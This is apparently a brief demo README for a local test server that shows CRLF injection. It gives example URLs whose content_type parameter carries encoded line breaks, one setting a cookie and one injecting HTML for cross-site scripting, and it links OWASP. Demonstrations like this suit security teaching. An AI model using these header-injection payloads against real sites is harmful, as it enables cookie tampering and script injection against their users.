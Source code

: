 Simple test - http://127.0.0.1:8383/?content_type=text/plain

Cookie set - http://127.0.0.1:8383/?content_type=text/html%0d%0aSet-Cookie:%20a=1%0d%0a

XSS - http://127.0.0.1:8383/?content_type=text/html%0d%0a%0d%0a<h1>XSS<!--



(CRLF Injection)[https://www.owasp.org/index.php/CRLF_Injection]